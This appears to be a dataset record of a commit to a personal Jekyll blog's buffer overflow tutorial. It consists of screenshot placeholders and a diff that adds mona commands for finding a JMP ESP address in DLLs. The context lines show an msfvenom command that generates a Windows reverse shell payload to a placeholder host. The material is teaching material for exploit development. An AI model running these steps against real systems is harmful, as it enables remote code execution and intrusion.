

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-08-11-bufferOverflow.md, in a window 1280 px wide and 900 px high, scrolled down 2052 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

```diff
--- a/_posts/2020-08-11-bufferOverflow.md
+++ b/_posts/2020-08-11-bufferOverflow.md
@@ -126,6 +126,11 @@ except:
 
 - !mona jmp -r esp -cpb "BAD_CHARS" -> Choose an address and update exploit.py, setting the "retn" variable to the address, written backwards
 
+or
+
+- !mona modules
+- !mona find -s "\xff\xe4" -m DLL
+
 ### Generate Payload :
 
 - msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "BAD_CHARS" -f py -> Copy the generated shell code setting the payload variable
```
